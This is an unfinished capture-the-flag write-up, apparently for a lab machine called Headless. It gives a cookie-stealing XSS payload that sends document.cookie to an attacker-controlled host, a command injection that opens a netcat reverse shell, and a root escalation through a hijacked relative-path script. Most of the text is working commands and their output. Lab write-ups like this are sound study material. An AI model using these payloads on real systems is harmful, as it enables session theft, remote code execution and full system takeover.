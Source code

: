 *Not finished*

We run nmap and find that port 5000 is open.

There is a support screen where there is a place to log a support ticket. We input a script there to check for a cross site scripting vulnerability. This is input in burpsuite

```
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie);
</script>
```

On our local we run a webserver to to receive a cookie:

```
python3 -m http.server 5000

Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.10.14.41 - - [14/Jul/2024 11:08:21] "GET /?
cookie=aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz HTTP/1.1" 200 -
10.10.11.8 - - [14/Jul/2024 11:08:42] "GET /?
cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

After a gobuster dir attack, we see that there is a /dashboard behind a signin. We use the cookie to login as admin to connect to the /dashboard. First we have to run the cookie against base64

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```

We then input the cookie via developer tools in the storage tab.

On the /dashboard page in burpsuite we find that there is a `date` input, we add another command injection there to get a reverse shell on the attacking box.

```
date=2023-09-15;+nc+10.10.14.41+4444+-e+/bin/bash
```

Netcat listens and gets our shell:

```
$ nc -lnvp 4444

id 
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

I have obtained interactive shell as the `dvir` user. I can upgrade the shell with 

```
script /dev/null -c /bin/bash

Script started, output log file is '/dev/null'.
dvir@headless:~/app$
```

The user flag is found by running `cat /home/dvir/user.txt`

To get root access I run `sudo -l` to see what this user can run as root. The output is the file `/usr/bin/syscheck`.

Looking at the file, it does a database service check, where if there is no process named `initdb.sh` running, the script attempts to execute it without specifying an absolute path. Since I have permissions in certain directories, I can create a malicious script named `initdb.sh`, when the script runs it will run with root privileges.

I create the file `initdb.sh` in the `/tmp` folder:

```
dvir@headless:/tmp$ cd /tmp
dvir@headless:/tmp$ echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh
dvir@headless:/tmp$ chmod +x /tmp/initdb.sh

dvir@headless:/tmp$ sudo /usr/bin/syscheck

Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.05, 0.03, 0.00
Database service is not running. Starting it...
id

uid=0(root) gid=0(root) groups=0(root)
```

Now that we have root access I can `cat /root/roo.txt` and get the flag.